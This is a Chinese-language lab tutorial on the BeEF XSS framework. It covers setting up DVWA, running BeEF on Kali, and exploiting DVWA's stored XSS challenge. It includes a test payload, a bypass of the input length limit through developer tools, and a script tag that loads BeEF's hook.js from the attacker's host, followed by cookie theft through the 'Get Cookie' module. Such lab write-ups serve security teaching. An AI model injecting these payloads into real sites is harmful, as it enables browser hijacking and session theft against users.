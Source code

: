 # BeEF-XSS渗透框架的使用

# BeEF-XSS渗透框架的使用

## 搭建靶场

<img src="https://pic.imgdb.cn/item/64de1693661c6c8e54451348.jpg" style="zoom: 50%;" />

将DVWA靶场安装包解压到根目录

![](https://pic.imgdb.cn/item/64de1770661c6c8e54495d72.jpg)

修改配置文件

<img src="https://pic.imgdb.cn/item/64de3533661c6c8e54c771db.jpg" style="zoom: 67%;" />

<img src="https://pic.imgdb.cn/item/64de379a661c6c8e54d477db.jpg" style="zoom:67%;" />

<img src="https://pic.imgdb.cn/item/64de3824661c6c8e54d6f1c9.jpg" style="zoom:67%;" />

​	

​	

## BeEF-XSS渗透框架的使用【KALI】

安装BeEF：`sudo apt-get install beef-xss`

运行BeEF：`beef-xss`

<img src="https://pic.imgdb.cn/item/64de3a16661c6c8e54df35d6.jpg" style="zoom:67%;" />

`ifconfig`查看KALI机的IP

<img src="https://pic.imgdb.cn/item/64de3ab9661c6c8e54e17498.jpg" style="zoom:67%;" />

在真机上访问BeEF的Web UI: `http://192.168.1.130:3000/ui/panel`

> 在真机上访问BeEF要把环回地址127.0.0.1改成KALI机的IP

<img src="https://pic.imgdb.cn/item/64de3c17661c6c8e54e6ddf2.jpg" style="zoom:67%;" />

> BeEF的默认用户名密码为beef、beef
>
> 首次登录会要求改密码，若改完的密码忘了可以通过`vim /etc/beef-xss/config.yaml`查看或修改

​	

​	

## BeEF实战

首先设置DVWA靶场的难度

<img src="https://pic.imgdb.cn/item/64de3d3c661c6c8e54ebd123.jpg" style="zoom:67%;" />

来到XSS (Stored)——存储型XSS关卡

在留言板Name那栏输入poc：`<script>alert(1)</script>`，发现字符数超过上限

<img src="https://pic.imgdb.cn/item/64de3e4d661c6c8e54f0aae4.jpg" style="zoom: 50%;" />

解决方法：`F12`打开开发者模式

![](https://pic.imgdb.cn/item/64de3fe8661c6c8e54f9dc9b.jpg)

将限制的数量改大些

改好后输入poc

<img src="https://pic.imgdb.cn/item/64de402b661c6c8e54fb0915.jpg" style="zoom:67%;" />

页面出现弹窗，说明存在XSS漏洞

<img src="https://pic.imgdb.cn/item/64de407a661c6c8e54fca740.jpg" style="zoom:50%;" />

之后刷新页面，还是出现弹窗，说明属于存储型XSS

已经用poc确定存储型XSS存在，接下来就是利用BeEF渗透测试框架来利用这个漏洞

在留言板Name那栏输入payload：`<script src="http://192.168.1.130:3000/hook.js"></script>`(记得先通过开发者模式修改字符数限制)

<img src="https://pic.imgdb.cn/item/64de4279661c6c8e5405aedc.jpg" style="zoom:50%;" />

当我们访问这个界面时恶意脚本就被执行了

去BeEF的Web UI，发现真机已经在"上线"列表中了

<img src="https://pic.imgdb.cn/item/64de4336661c6c8e5408d5ae.jpg" style="zoom:50%;" />

打开命令界面

![](https://pic.imgdb.cn/item/64de44b0661c6c8e540f0558.jpg)

- 绿色：对目标主机生效并且不可见(不会被发现)
- 橙色：对目标主机生效但可能可见(可能被发现)
- 灰色：在目标主机上的效果有待验证
- 红色：对目标主机不生效

例如"Get Cookie"模块

<img src="https://pic.imgdb.cn/item/64de4512661c6c8e54103a83.jpg" style="zoom:50%;" />

获得受害者在那个被利用了XSS漏洞网站的Cookie

![](https://pic.imgdb.cn/item/64de457d661c6c8e54119a7c.jpg)

